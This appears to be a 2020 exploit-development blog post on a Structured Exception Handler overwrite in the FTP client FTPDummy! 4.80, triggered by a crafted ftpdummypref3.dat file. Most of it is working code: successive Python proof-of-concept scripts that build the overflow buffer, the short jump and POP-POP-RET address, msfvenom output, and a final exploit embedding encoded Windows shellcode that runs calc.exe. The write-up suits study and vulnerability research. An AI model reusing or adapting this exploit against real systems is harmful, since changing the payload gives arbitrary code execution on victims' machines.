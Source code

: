 ```yaml
---
layout: post
title: FTPDummy! 4.80 - Structured Exception handling
date: 2020-03-26 14:45:00
categories: posts
comments: false
en: true
---
```


# The Bug

FTPDummy! is an ftp client which suffers from a Structured Exception handling overwrite when a long string is introduced within ftpdummypref3.dat.

Directory listing:

![](/assets/img/Findings8/0.png)

### The crash

In order to portray the malicious file to be a .dat format, it needs some headers, which i modified from [here](https://www.exploit-db.com/exploits/32050).

PoC code:

```term
import struct

buffer = "\x31\x0d\x0a\x31\x0d\x0a" + "A" * 5000

try:
    f = open ("ftpdummypref3.dat", "w")
    f.write(buffer)
    f.close()
    print "[+] The file has been created successfully!"

except:
    print "[!] There has been an error while creating the file."
```

The file is generated within the FTPDummy! folder, so as to achieve	the hijicking of ftpdummypref3.dat:

![](/assets/img/Findings8/1.png)

PoC code:

```term
import struct

buffer = "\x31\x0d\x0a\x31\x0d\x0a" + "A" * 477 + "BBBB" + "CCCC" + "\xff" * 2000 

try:
    f = open ("ftpdummypref3.dat", "w")
    f.write(buffer)
    f.close()
    print "[+] The file has been created successfully!"

except:
      print "[!] There has been an error while creating the file."      
```

### Accessing the flow

The SEH values are overwritten as expected:

![](/assets/img/Findings8/2.png)

The modules are listed:

![](/assets/img/Findings8/3.png)

Despite the fact that the only possible PPR addresses contain a null-byte, this does not cause many issues, due to the fact that in cases like these in which files are being used, instead of sending the payload remotely or on text itself, such characters do not affect the chain that much.

![](/assets/img/Findings8/4.png)

Selecting the address:

![](/assets/img/Findings8/5.png)

PoC code:

```term
import struct

nseh = "\x70\x08\x71\x06"
seh = struct.pack("<I", 0x0044D078)

buffer = "\x31\x0d\x0a\x31\x0d\x0a" + "A" * 477 + nseh + seh + "\xff" * 2000 

try:
    f = open ("ftpdummypref3.dat", "w")
    f.write(buffer)
    f.close()
    print "[+] The file has been created successfully!"

except:
    print "[!] There has been an error while creating the file."
    
```

The SEH values are overwritten with the short-jump and the PPR address as expected, achieving an execution of \xff characters:

![](/assets/img/Findings8/5.png)

### Shellcode

As this scenario may contain different bad characters, being these for example 0a or 0d, i simply chose to use the x86/alpha_mixed encoder in order to use as less non-ASCII characters as possible.

```term
root@whitecr0wz:~/Exploit-Dev/hex# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 448 (iteration=0)
x86/alpha_mixed chosen with final size 448
Payload size: 448 bytes
Final size of py file: 2188 bytes
buf =  b""
buf += b"\x89\xe2\xda\xdf\xd9\x72\xf4\x5e\x56\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x6b\x4c\x59\x78\x6c"
buf += b"\x42\x33\x30\x63\x30\x37\x70\x55\x30\x6c\x49\x68\x65"
buf += b"\x74\x71\x6b\x70\x65\x34\x4e\x6b\x66\x30\x30\x30\x4c"
buf += b"\x4b\x36\x32\x76\x6c\x6e\x6b\x30\x52\x75\x44\x6c\x4b"
buf += b"\x32\x52\x55\x78\x66\x6f\x4f\x47\x53\x7a\x47\x56\x30"
buf += b"\x31\x69\x6f\x6c\x6c\x35\x6c\x55\x31\x73\x4c\x63\x32"
buf += b"\x66\x4c\x67\x50\x5a\x61\x4a\x6f\x34\x4d\x73\x31\x6f"
buf += b"\x37\x48\x62\x48\x72\x51\x42\x72\x77\x4e\x6b\x76\x32"
buf += b"\x34\x50\x6c\x4b\x30\x4a\x75\x6c\x6c\x4b\x30\x4c\x54"
buf += b"\x51\x61\x68\x7a\x43\x57\x38\x57\x71\x6a\x71\x46\x31"
buf += b"\x6c\x4b\x56\x39\x71\x30\x67\x71\x6b\x63\x6c\x4b\x70"
buf += b"\x49\x64\x58\x38\x63\x55\x6a\x43\x79\x6c\x4b\x46\x54"
buf += b"\x6c\x4b\x67\x71\x78\x56\x54\x71\x59\x6f\x6e\x4c\x5a"
buf += b"\x61\x58\x4f\x64\x4d\x46\x61\x39\x57\x47\x48\x6d\x30"
buf += b"\x34\x35\x78\x76\x46\x63\x51\x6d\x5a\x58\x55\x6b\x73"
buf += b"\x4d\x35\x74\x71\x65\x69\x74\x31\x48\x6e\x6b\x31\x48"
buf += b"\x47\x54\x55\x51\x6b\x63\x30\x66\x4c\x4b\x66\x6c\x32"
buf += b"\x6b\x4c\x4b\x71\x48\x35\x4c\x65\x51\x6a\x73\x6e\x6b"
buf += b"\x53\x34\x4c\x4b\x66\x61\x7a\x70\x4f\x79\x61\x54\x77"
buf += b"\x54\x55\x74\x71\x4b\x33\x6b\x70\x61\x52\x79\x43\x6a"
buf += b"\x76\x31\x49\x6f\x6d\x30\x43\x6f\x53\x6f\x73\x6a\x4c"
buf += b"\x4b\x72\x32\x7a\x4b\x6e\x6d\x31\x4d\x72\x4a\x65\x51"
buf += b"\x4c\x4d\x4f\x75\x4d\x62\x47\x70\x33\x30\x63\x30\x46"
buf += b"\x30\x71\x78\x64\x71\x6c\x4b\x72\x4f\x6f\x77\x49\x6f"
buf += b"\x58\x55\x6f\x4b\x4d\x30\x67\x6d\x55\x7a\x77\x7a\x35"
buf += b"\x38\x39\x36\x5a\x35\x4f\x4d\x6d\x4d\x79\x6f\x4e\x35"
buf += b"\x77\x4c\x53\x36\x61\x6c\x37\x7a\x6b\x30\x79\x6b\x79"
buf += b"\x70\x33\x45\x55\x55\x6f\x4b\x73\x77\x35\x43\x54\x32"
buf += b"\x72\x4f\x73\x5a\x73\x30\x71\x43\x79\x6f\x48\x55\x33"
buf += b"\x53\x55\x31\x50\x6c\x30\x63\x36\x4e\x55\x35\x33\x48"
buf += b"\x30\x65\x73\x30\x41\x41"
root@whitecr0wz:~/Exploit-Dev/hex# 
```

Finally, the shellcode is assembled with the final header as well:

Final PoC:

```term
import struct

nseh = "\x70\x08\x71\x06"
seh = struct.pack("<I", 0x0044D078)

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
#Payload size: 448 bytes

buf =  b""
buf += b"\x89\xe2\xda\xdf\xd9\x72\xf4\x5e\x56\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x6b\x4c\x59\x78\x6c"
buf += b"\x42\x33\x30\x63\x30\x37\x70\x55\x30\x6c\x49\x68\x65"
buf += b"\x74\x71\x6b\x70\x65\x34\x4e\x6b\x66\x30\x30\x30\x4c"
buf += b"\x4b\x36\x32\x76\x6c\x6e\x6b\x30\x52\x75\x44\x6c\x4b"
buf += b"\x32\x52\x55\x78\x66\x6f\x4f\x47\x53\x7a\x47\x56\x30"
buf += b"\x31\x69\x6f\x6c\x6c\x35\x6c\x55\x31\x73\x4c\x63\x32"
buf += b"\x66\x4c\x67\x50\x5a\x61\x4a\x6f\x34\x4d\x73\x31\x6f"
buf += b"\x37\x48\x62\x48\x72\x51\x42\x72\x77\x4e\x6b\x76\x32"
buf += b"\x34\x50\x6c\x4b\x30\x4a\x75\x6c\x6c\x4b\x30\x4c\x54"
buf += b"\x51\x61\x68\x7a\x43\x57\x38\x57\x71\x6a\x71\x46\x31"
buf += b"\x6c\x4b\x56\x39\x71\x30\x67\x71\x6b\x63\x6c\x4b\x70"
buf += b"\x49\x64\x58\x38\x63\x55\x6a\x43\x79\x6c\x4b\x46\x54"
buf += b"\x6c\x4b\x67\x71\x78\x56\x54\x71\x59\x6f\x6e\x4c\x5a"
buf += b"\x61\x58\x4f\x64\x4d\x46\x61\x39\x57\x47\x48\x6d\x30"
buf += b"\x34\x35\x78\x76\x46\x63\x51\x6d\x5a\x58\x55\x6b\x73"
buf += b"\x4d\x35\x74\x71\x65\x69\x74\x31\x48\x6e\x6b\x31\x48"
buf += b"\x47\x54\x55\x51\x6b\x63\x30\x66\x4c\x4b\x66\x6c\x32"
buf += b"\x6b\x4c\x4b\x71\x48\x35\x4c\x65\x51\x6a\x73\x6e\x6b"
buf += b"\x53\x34\x4c\x4b\x66\x61\x7a\x70\x4f\x79\x61\x54\x77"
buf += b"\x54\x55\x74\x71\x4b\x33\x6b\x70\x61\x52\x79\x43\x6a"
buf += b"\x76\x31\x49\x6f\x6d\x30\x43\x6f\x53\x6f\x73\x6a\x4c"
buf += b"\x4b\x72\x32\x7a\x4b\x6e\x6d\x31\x4d\x72\x4a\x65\x51"
buf += b"\x4c\x4d\x4f\x75\x4d\x62\x47\x70\x33\x30\x63\x30\x46"
buf += b"\x30\x71\x78\x64\x71\x6c\x4b\x72\x4f\x6f\x77\x49\x6f"
buf += b"\x58\x55\x6f\x4b\x4d\x30\x67\x6d\x55\x7a\x77\x7a\x35"
buf += b"\x38\x39\x36\x5a\x35\x4f\x4d\x6d\x4d\x79\x6f\x4e\x35"
buf += b"\x77\x4c\x53\x36\x61\x6c\x37\x7a\x6b\x30\x79\x6b\x79"
buf += b"\x70\x33\x45\x55\x55\x6f\x4b\x73\x77\x35\x43\x54\x32"
buf += b"\x72\x4f\x73\x5a\x73\x30\x71\x43\x79\x6f\x48\x55\x33"
buf += b"\x53\x55\x31\x50\x6c\x30\x63\x36\x4e\x55\x35\x33\x48"
buf += b"\x30\x65\x73\x30\x41\x41"

buffer = "\x31\x0d\x0a\x31\x0d\x0a" + "A" * 477 + nseh + seh + "A" * 5 + buf + "\xff" * 2000 + "\x0d\x0a\x7c\x31\x0d\x0a"

try:
    f = open ("ftpdummypref3.dat", "w")
    f.write(buffer)
    f.close()
    print "[+] The file has been created successfully!"

except:
    print "[!] There has been an error while creating the file."
    
    
```

# EndGame

![](/assets/img/Findings8/6.gif)
